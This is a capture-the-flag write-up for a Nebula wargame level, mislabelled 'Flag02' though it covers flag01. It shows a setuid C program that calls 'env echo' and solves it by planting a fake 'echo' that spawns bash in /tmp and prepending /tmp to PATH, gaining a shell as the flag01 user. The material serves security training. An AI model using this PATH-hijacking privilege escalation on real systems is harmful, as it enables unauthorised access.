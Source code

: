 ## Flag02

#### About
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```
### Solution:
Hence there is a hint about the enviroment variables, we should have a look at this

```bash
printenv

```
The program usees the system command to run other systemcalls. Additionally there is use of the echo command, which just repeats a given argument on the std out channel.
With this knowledge, we now try to break this system command. Yes, we will write our own echo command, to overwrite the existing echo command.

We aim  to get a shell as another user. To do so we have to write a simple program, that calls a shell (in this particular case the bash shell).

```c
#include<stdio.h>
#include<stdlib.h>

int main(void) {
	system("/bin/bash");
}

```

The above shown code shows how this could look like. Compile this code and ad its consisting folder to the enviroment variable (here I used /tmp, other folders would work as well. This folder is temporary, so everything gets deleted after reboot).

```bash
# cd /tmp
# cc echo.c -o echo
# PATH=/tmp/:$PATH
```

Now change back to the folder of flag01 and run the flag binary -- yes, it has set uid as well as the last one. 
```bash
level01@nebula:~$ cd /tmp/
level01@nebula:/tmp$ PATH=/tmp/:$PATH
level01@nebula:/tmp$ ./flag01 
level01@nebula:/tmp$ cd /home/flag01/
level01@nebula:/home/flag01$ ./flag01 
flag01@nebula:/home/flag01$ 
flag01@nebula:/home/flag01$ getflag 
You have successfully executed getflag on a target account
```